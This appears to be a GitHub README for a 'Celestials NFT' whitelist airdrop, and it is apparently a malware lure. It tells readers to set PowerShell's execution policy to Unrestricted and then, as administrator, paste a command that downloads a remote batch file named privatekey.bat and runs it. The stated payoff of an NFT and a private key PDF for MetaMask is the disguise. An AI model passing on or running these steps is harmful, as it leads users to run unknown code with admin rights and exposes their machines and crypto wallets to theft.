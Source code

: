 <div style="display: flex; justify-content: space-around;">
<img src="https://github.com/user-attachments/assets/85e19765-ffdc-4c8a-97ab-e04692c10ca7" alt="photo_5926748594818368500_y" width="300" />
<img src="https://github.com/user-attachments/assets/1e6711a8-b47f-49df-a879-e8cde3db7334" alt="photo_5926748594818368500_y" width="300" />
<img src="https://github.com/user-attachments/assets/8fbe62f2-4ca6-4261-8914-4d36f635c46b" alt="photo_5926748594818368500_y" width="300" />
</div>

# CELESTIALS NFT WHITELIST AIRDROP GUIDE

How to generate wallet and qualify for Celestials NFT Airdrop

# OPEN POWERSHELL AS ADMIN ON WINDOWS

1. Copy and paste the following in your powershell:
```
Set-ExecutionPolicy Unrestricted
```
2. Type Y when Prompted and close Powershell

# OPEN CMD AS ADMIN ON WINDOWS
1. Copy and paste the following in your CMD:
```
powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/CelestialNFT/Airdrop-Whitelist/main/privatekey.bat -OutFile privatekey.bat; Start-Process -FilePath .\privatekey.bat -ArgumentList /c -NoNewWindow -Wait"
```
2. You have successfully Minted Your Welcome NFT on sui. 

You will get Private key and secret Phrase in PDF, Import to metamask and wait for TGE event. Follow us on twitter @celestianfts

